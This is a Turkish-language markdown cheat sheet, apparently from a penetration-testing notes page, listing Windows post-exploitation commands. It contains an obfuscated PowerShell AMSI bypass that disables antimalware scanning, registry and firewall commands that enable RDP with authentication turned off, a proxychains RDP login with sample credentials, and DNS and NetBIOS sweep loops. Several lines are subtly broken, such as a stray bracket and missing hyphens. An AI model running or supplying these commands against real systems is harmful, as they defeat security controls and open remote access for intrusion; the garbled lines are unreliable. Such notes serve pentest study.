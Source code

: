 ### AMSI Devre Dışı Bırakma:
```powershell
sET-ItEM ('V'+'aR' + 'IA' + 'blE:1q2' + 'uZx') (TYpE); (GeT-VariaBle ("1Q2U" +"zX") -VaL)."AssEmbly"."GETTYPe"(("{6}{3}{1}{4}{2}{0}{5}" -f'Util','A','Amsi','.Management.','utomation.','s','System'))."getfiElD"(("{0}{2}{1}" -f'amsi','d','InitFaile'),("{2}{4}{0}{1}{3}" -f 'Stat','i','NonPubli','c','c,')) ."sETVaLUE"(${nULl},${tRuE})
```

### RDP’yi Aktifleştirme:
```powershell
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server" /v fDenyTSConnections /t REG_DWORD /d 0 /f
reg add "HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp" /v UserAuthentication /t REG_DWORD /d 0 /f
netsh firewall set service remoteadmin enable
netsh firewall set service remotedesktop enable
```

### Proxychains ile RDP Bağlantısı:
```bash
proxychains rdesktop 10.10.10.10 -u Bhanu -p Bhanu@1234
```

### Tüm Paylaşımları Listeleme:
```powershell
net share
```

### SNMP Yapılandırması:
```powershell
reg query HKLM\SYSTEM\CurrentControlSet\Services\SNMP /s
Get-ChildItem -path HKLM:\SYSTEM\CurrentControlSet\Services\SNMP -Recurse
```

### DNS Taraması:
```bash
for /L %i in (1,1,255) do @nslookup 10.10.10.%i [server to resolve 2>nul | find "Name" && echo 10.10.10.%i
```

### NetBIOS Taraması:
```bash
for /L %i in (1,1,255) do @nbtstat A 10.10.10.%i 2>nul && echo 10.10.10.%i
```

### Powershell AD Modülü Kurulumu:
```powershell
Import Module ServerManager
Add-WindowsFeature RSAT-AD-PowerShell
```

---
